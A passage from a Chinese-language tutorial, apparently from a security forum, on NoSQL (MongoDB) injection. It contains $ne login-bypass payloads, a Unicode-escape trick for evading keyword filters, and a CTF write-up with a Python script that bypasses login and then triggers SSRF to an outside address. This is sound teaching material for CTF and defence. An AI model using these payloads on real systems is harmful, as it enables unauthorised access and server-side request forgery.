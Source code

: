 - index.jade

```php
h1 #{message}
p #{message}
```

运行 server.js 后，访问 8000 端口：

由于后端解析 JSON，所以我们发送 JSON 格式的 payload：

```json
{"username":{"$ne":1},"password": {"$ne":1}}
```

![image-20210724015724378](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0d56fc689a83cbd0393f658343d357db6cb39e33.png)

如上图所示，成功登录。

在处理 MongoDB 查询时，经常会使用 JSON格式将用户提交的数据发送到服务端，如果目标过滤了 `$ne` 等关键字，我们可以使用 Unicode 编码绕过，因为 JSON 可以直接解析 Unicode。如下所示：

```json
{"username":{"\u0024\u006e\u0065":1},"password": {"\u0024\u006e\u0065":1}}
// {"username":{"$ne":1},"password": {"$ne":1}}
```

![image-20210724020055910](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-92ebeaac9f87d3e1672aa8e5a9540b68643eae3f.png)

Nosql 相关 CTF 例题
---------------

### \[2021 MRCTF\]Half-Nosqli

进入题目，发现是一个Swagger UI：

![image-20210417184733150](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-e28727fb6ecb759e09686c9dff3baf68e26bb69c.png)

有两个 Api 接口，一个是 `/login` 用于登录，另一个是 `/home` 可通过 url 属性进行 SSRF。我们可以编写脚本来访问这两个 Api 接口。首先访问 `/home`接口报错，因为需要验证，所以思路应该是先访问 `/login` 接口进行登录，登录后拿到 token 再去访问 `/home` 接口。这里由于题目名提示了是 NoSQL，所以我们可以直接使用 NoSQL 的永真式绕过。

这里没有任何过滤，Exp 如下：

```python
import requests
import json

url = "http://node.mrctf.fun:23000/"
json_data = {
  "email": {"$ne": ""},
  "password": {"$ne": ""}
}
res = requests.post(url=url+'login',json=json_data)
token = res.json()['token']

json_data2 = {
    "url":"http://47.xxx.xxx.72:4000"    # 通过这里的url值进行SSRF
}

headers = {
    "Authorization":"Bearer "+token
}
res2 = requests.post(url=url+'home',json=json_data2,headers=headers)
print(res2)
```
